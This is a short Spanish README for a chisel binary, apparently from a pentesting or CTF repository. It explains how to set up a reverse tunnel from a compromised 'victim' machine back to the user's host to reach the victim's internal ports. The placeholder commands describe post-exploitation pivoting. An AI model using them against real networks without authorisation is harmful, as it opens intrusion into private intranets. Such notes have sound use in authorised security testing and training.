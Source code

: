 # chisel - linux_amd64
# Otras versiones -> https://github.com/jpillora/chisel/releases
Con este binario de chisel para  linux x64 podemos realizar un port forwarding desde una maquina a la que tengamos acceso, redireccionando los puertos y pudiendo acceder a su intranet desde nuestra maquina local
El binario no necesita compilacion ni instalacion, es Plug&Play. 

Lo primero es extraer el binario.

    gunzip chisel_1.8.1_linux_amd64.gz

Para establecer un port forwarding seguiremos los siguientes comandos.

Maquina local(host):

    ./chisel server -p [PUERTO] --reverse
  
Maquina remota(victim):

    .chisel client [IP_HOST]:[PUERTO_HOST] R:[PUERTO_LOCAL_REDIRECCION]:[IP_VICTIMA_INTRANET]:[PUERTO_INTRANET]
  
  
Tanto la ip como el puerto de la victima dependeran de la maquina, pero al tratarse de puertos locales y que no son visibles desde fuera,
se encontraran en localhost/127.0.0.1 y el puerto dependera de cada maquina. 

Se pueden ver los puertos con:

    netstat -tlnp 
